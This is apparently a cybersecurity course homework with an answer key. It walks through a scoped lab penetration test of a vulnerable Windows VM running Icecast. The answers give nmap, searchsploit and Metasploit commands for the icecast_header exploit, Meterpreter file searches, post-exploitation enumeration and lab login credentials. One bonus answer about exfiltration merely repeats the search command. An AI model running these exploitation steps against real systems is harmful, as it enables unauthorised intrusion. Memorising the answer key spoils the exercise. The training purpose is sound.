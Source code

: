 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV -sS 192.168.0.20
 
![](images/nmap-version-search.png)
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole

![](images/start-metasploit.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

![](images/searchsploit-icecast.png)
 
   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     > Alternatively: use exploit/windows/http/icecast_header
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit

![](images/use-configure-and-exploit-icecase.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f secretfile.txt
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f recipe.txt
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: search -f recipe*.txt
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell
            systeminfo
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.